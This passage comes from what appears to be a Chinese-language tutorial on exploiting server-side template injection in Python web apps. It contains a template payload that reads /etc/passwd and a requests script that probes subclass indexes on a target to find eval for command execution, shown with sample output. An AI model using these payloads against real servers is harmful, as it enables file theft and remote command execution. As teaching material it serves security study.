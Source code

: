 ```
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}

```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174654-236f65ba-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174654-236f65ba-bd3e-1.png)

利用 SSTI 执行命令
------------

可以用来执行命令的类有很多，其基本原理就是遍历含有 eval 函数即 os 模块的子类，利用这些子类中的 eval 函数即 os 模块执行命令。这里我们简单挑几个常用的讲解。

### 寻找内建函数 eval 执行命令

首先编写脚本遍历目标 Python 环境中含有内建函数 eval 的子类的索引号：

```
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"

    res = requests.get(url=url, headers=headers)
    if 'eval' in res.text:
        print(i)

# 得到一大堆子类的索引:
64
65
66
67
68
79
80
81
83
91
92
93
94
95
96
117
...


```
